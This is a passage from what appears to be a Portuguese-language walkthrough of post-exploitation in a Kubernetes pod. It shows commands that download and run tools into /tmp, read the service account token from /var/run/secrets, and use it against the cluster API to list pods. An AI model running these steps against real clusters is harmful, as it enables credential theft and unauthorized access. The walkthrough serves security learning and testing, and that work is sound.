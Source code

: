 Aqui há informações como a linha da distribuição GNU/Linux e a versão do Kernel. Com isso já pode se iniciar a busca por exploits para a versão de kernel e baseados na distro.Continuando a busca, listaremos as variáveis do ambiente.


```
env
```

Vamos continuar o reconhecimento para termos certeza que estamos rodando em um container. Para isso vamos utilizar a ferramenta “amicontained”, pois com ela conseguimos uma serie de informações como:
- Container Runtime.
- Existência de namespace.
- Capabilities.
- Syscalls liberadas.
```
cd /tmp; curl -fSL "https://github.com/genuinetools/amicontained/releases/download/v0.4.9/amicontained-linux-amd64" -o "amicontained" \ && chmod a+x "amicontained" \ && ./amicontained
```
Não temos acesso a nenhuma syscall e nenhuma capabilities especial, porém conseguimos confirmar que realmente somos um container.

Todo pod, deploy e rs possui uma serviceaccount e por padrão são executados com a conta default. Uma serviceaccount fornece uma identidade para processos executados em um pod e nela são atrelado as rules de permissão.

O por padrão o token e certificado ficam em um volume montado no pod no diretório **/var/run/secrets/kubernetes.io/serviceaccount**.


```
cd /var/run/secrets/kubernetes.io/serviceaccount
```

Primeiro vamos ver a versão do cluster e se conseguimos interagir com a API.
```
curl -k https://${KUBERNETES_SERVICE_HOST}:${KUBERNETES_SERVICE_PORT}/version
```
Já que conseguimos acesso a API com esse token vamos tentar listar alguns pods, de início vamos tentar listar no namespace em que estamos:

```
TOKEN=$(cat /var/run/secrets/kubernetes.io/serviceaccount/token)
NS=$(cat /var/run/secrets/kubernetes.io/serviceaccount/namespace)

curl -k https://${KUBERNETES_SERVICE_HOST}:${KUBERNETES_SERVICE_PORT}/api --header "Authorization: Bearer $TOKEN" --insecure

curl -k https://${KUBERNETES_SERVICE_HOST}:${KUBERNETES_SERVICE_PORT}/api/v1/namespaces/$NS/pods/ --header "Authorization: Bearer $TOKEN" --insecure
```

Conseguimos listar os pods e isso é muito interessante. Para facilitar um pouco as coisas vamos baixar o kubectl para interagir com o cluster.

```
cd /tmp ; curl -LO https://dl.k8s.io/release/v1.22.0/bin/linux/amd64/kubectl ; chmod +x ./kubectl
```
Listaremos os pods com o kubectl.
```
./kubectl get pod
```
